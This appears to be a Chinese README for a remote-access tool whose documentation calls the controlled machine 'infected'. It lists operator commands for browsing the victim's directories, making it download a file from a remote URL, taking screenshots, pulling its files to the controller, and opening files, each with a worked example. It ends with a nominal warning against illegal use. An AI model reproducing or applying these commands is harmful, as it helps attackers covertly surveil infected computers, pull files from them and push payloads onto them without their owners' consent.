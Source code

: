 # 欲儿远控说明文档

## 命令大全

### 目录查询 (`dir`)
查询目标计算机指定硬盘路径的文件。  

```
dir-<目标硬盘路径>
```

**示例**：
```
dir-D:\
```

---

### 远程下载 (`down`)
让目标计算机从指定链接下载文件并保存到指定路径。

```
down-<下载链接>-<保存路径>
```

**示例**：
```
down-http://www.anyuer.club-D:\index.php
```

---

### 远程截屏 (`screen`)
截取目标计算机当前屏幕，并将截图保存到其硬盘上。

```
screen-<保存路径>
```

**示例**：
```
screen-D:\001.jpg
```

---

### 文件传输 (`pass`)
让目标计算机的文件传输至你的电脑。

```
pass-<对方文件路径>-<你自己的文件路径>
```

**示例**：
```
pass-D:\001.jpg-E:\002.jpg
```

---

### 远程打开文件 (`open`)
让目标计算机打开指定路径的文件。

```
open-<对方文件路径>
```

**示例**：
```
open-D:\001.jpg
```

---

> **注意：**  
> - **`对方`** 指的是感染该程序的目标计算机。  
> - **`自己`** 指的是后台管理者，即控制端计算机。  
> - 请务必遵守法律法规，切勿将该工具用于任何非法用途！
